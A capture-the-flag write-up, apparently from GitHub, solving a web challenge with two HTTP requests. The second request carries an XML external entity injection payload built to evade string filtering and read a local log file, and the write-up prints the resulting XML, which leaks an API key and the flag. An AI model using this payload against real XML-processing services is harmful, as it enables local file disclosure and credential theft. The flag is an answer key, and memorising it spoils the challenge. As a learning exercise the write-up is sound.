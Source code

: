 # Objective

# Solution

First send a request with a bad apiKey to generate log file. Then read log file with second request.

The issue is how they are replacing strings in the xml file. You want to create an entity that is able to read a local file (the log file).

```
### Flag really is H858FDSKL49FK09K4590KFK2390KCFVC12

### First send the first request
### Second send the second request

POST https://chal35-g7sg4j.vercel.app/getCRMUsers HTTP/1.1
Content-Type: application/json

{
    "apiKey": "wrong"
}

###

POST https://chal35-g7sg4j.vercel.app/createCard HTTP/1.1
Content-Type: application/json

{
  "role": "role\"> --> <ENTITY!EDOCTYPENDOCTYPETDOCTYPEIDOCTYPETDOCTYPEY role SENTITYYENTITYSENTITYTENTITYEENTITYM \"/tmp/last_req.log",
  "firstName": "fn",
  "lastName": "ln\"> <ENTITY!--"
}

###
```

The second request will generate XML that looks like this: (note the contents of the log file are injected)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
<!ENTITY firstName "fn">
<!ENTITY lastName "ln">
<!--"><!ENTITY role "role">--><!ENTITY role SYSTEM "/tmp/last_req.log">
]>
<userInfo>
<fullRef>fn ln, Expected API Key: H858FDSKL49FK09K4590KFK2390KCFVC12 | Received API Key: wrong</fullRef>
<firstName>fn</firstName>
<lastName>ln</lastName>
</userInfo>
```

GitHub isn't displaying the commenting correctly, but focus on the line below.. The second request we send it crafted in such a way that we comment out the 'role' entity only to overwrite it with our own injected entity..

```xml
<!--"><!ENTITY role "role">--><!ENTITY role SYSTEM "/tmp/last_req.log">
```
